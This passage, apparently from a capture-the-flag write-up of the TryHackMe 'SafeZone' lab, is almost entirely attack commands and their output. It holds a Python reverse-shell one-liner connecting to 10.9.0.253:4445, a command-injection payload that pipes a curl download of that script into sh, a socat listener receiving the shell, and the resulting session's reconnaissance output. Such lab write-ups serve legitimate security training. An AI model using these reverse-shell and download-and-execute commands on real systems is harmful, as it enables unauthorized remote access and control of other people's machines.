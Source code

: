 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# nano revshell.sh                                   
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.253",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**Payload:**
```bash
; curl http://10.9.0.253/revshell.sh | sh
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230033507.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4445
2022/12/30 03:28:04 socat[135993] N opening character device "/dev/pts/1" for reading and writing
2022/12/30 03:28:04 socat[135993] N listening on AF=2 0.0.0.0:4445
                                                                  2022/12/30 03:34:29 socat[135993] N accepting connection from AF=2 10.10.245.138:43252 on AF=2 10.9.0.253:4445
                                                                    2022/12/30 03:34:29 socat[135993] N starting data transfer loop with FDs [5,5] and [7,7]
                                                 yash@safezone:/opt$ 
yash@safezone:/opt$ export TERM=xterm-256color
yash@safezone:/opt$ stty rows 23 columns 103
yash@safezone:/opt$ whoami;hostname;id;ip a
yash
safezone
uid=1000(yash) gid=1000(yash) groups=1000(yash),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),114(sambashare)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:94:90:5e:ae:39 brd ff:ff:ff:ff:ff:ff
    inet 10.10.245.138/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3137sec preferred_lft 3137sec
    inet6 fe80::94:90ff:fe5e:ae39/64 scope link 
       valid_lft forever preferred_lft forever
```
